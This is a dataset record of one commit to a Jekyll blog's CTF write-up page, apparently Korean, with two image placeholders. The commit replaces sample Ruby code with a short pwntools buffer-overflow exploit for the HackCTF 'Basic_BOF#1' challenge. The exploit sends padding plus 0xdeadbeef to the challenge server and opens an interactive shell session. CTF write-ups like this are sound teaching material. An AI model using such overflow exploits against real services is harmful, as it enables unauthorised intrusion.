

Before and after one commit to HyD3c/HyD3c.github.io, a Jekyll site: the page built from _ctfs/2020-06-29-HackCTF-Basic_BOF#1.md, in a window 1280 px wide. Shown: the top 488 px of the page, without its empty margins (238-1036 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2020-06-29-HackCTF-Basic_BOF#1.md

```diff
--- a/_ctfs/2020-06-29-HackCTF-Basic_BOF#1.md
+++ b/_ctfs/2020-06-29-HackCTF-Basic_BOF#1.md
@@ -8,9 +8,10 @@ layout: post
 
 <span class="color-blue">HackCTF</span>의 첫 번째 <span class="color-blue">Pwnable</span> 문제로 <span class="color-blue">bof</span>를 이용한다.
 {% highlight python %}
-def print_hi(name)
-  puts "Hi, #{name}"
-end
-print_hi('Tom')
-#=> prints 'Hi, Tom' to STDOUT.
+from pwn import *
+
+p = remote("ctf.j0n9hyun.xyz", 3000)
+
+p.sendline("0"*0x28+p32(0xdeadbeef))
+p.interactive()
 {% endhighlight %}
```
